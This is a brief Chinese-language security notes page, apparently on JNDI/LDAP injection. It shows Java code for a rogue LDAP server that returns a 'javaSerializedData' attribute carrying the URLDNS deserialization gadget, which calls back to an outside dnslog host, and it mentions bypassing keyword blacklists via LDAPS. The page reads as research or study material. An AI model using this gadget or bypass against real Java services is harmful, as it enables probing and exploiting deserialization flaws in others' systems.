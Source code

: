 ![](img/2023-02-21-16-02-28.png)  
修改ldap服务器吗,在返回的Entry中添加`javaSerializedData`属性.
```java
 ByteArrayOutputStream bytes = new ByteArrayOutputStream();
            ObjectOutputStream serial = new ObjectOutputStream(bytes);
            HashMap map = new HashMap();
            URL url = new URL("http://sdsda.dnslog.cn/");
            Class clas = Class.forName("java.net.URL");
            Field field = clas.getDeclaredField("hashCode");
            field.setAccessible(true);
            field.set(url,123);
            map.put(url,"2333");
            field.set(url,-1);
            serial.writeObject(map);
            ...
            ...
            e.addAttribute("javaSerializedData", bytes.toByteArray());
```
![](img/2023-02-21-16-10-25.png)
## 黑名单关键字Bypass through ldaps
https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html
## 参考  
https://docs.oracle.com/javase/tutorial/jndi/  
https://paper.seebug.org/1091/#weblogic-rmi    
https://blog.csdn.net/li_w_ch/article/details/110114397    
https://xz.aliyun.com/t/7079  